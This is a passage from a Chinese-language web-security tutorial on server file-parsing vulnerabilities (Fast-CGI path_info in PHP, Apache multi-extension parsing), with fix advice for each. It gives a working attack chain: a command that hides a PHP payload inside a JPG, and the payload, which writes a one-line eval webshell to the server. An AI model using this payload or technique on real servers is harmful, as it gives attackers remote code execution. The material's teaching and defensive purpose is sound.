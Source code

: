 在Fast-CGI开启的状态下，在类似1.jpg后面加上/1.php,变成/1.jpg/1.php路径会解析成PHP文件。需要进入php.ini里面修改cig.cgi_ pathinfo=1。

将1.txt文本文件中的后门代码写入到1.jpg图片的二进制代码：

copy 1.jpg/b + 1.txt/a 1.jpg

1.txt的文件内容为：

```php
<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[password])?>');?>
```

当在图片文件中写入后门代码，当访问这个图片的时候加上/.php的时候就会在当前目录下生成一句话木马shell.php。

#### 3.2.2.2.**修复建议**

配置cgi.fix_pathinfo(php.ini中)为0并重启php-cgi程序 

![img](assets/gPXc5dBSiNaYhxW.jpg) 

## 3.3.**apache解析漏洞**

### 3.3.1.**apache解析漏洞**

在apache1.x和apache2.x中存在解析漏洞。

当一个文件为1.php.yy.xx的时候就会被当作php执行，这是由于在apache解析文件的时候有一个原则就是，以.后面的扩展名来解析，当遇见不认识的扩展名的时候，就会向前解析，直到遇到能够解析的后缀名为止。

如：1.php.yy.xx，首先会解析xx，xx无法解析就会去解析yy，yy无法解析就会去解析php，那么php是能够解析了，那么就会结束。

这种方式多用于绕过黑名单的检查。

### 3.3.2.**修复建议**

1）更新至最新版本。

2）将上传的文件进行重命名。

## 3.4.**nginx解析漏洞**
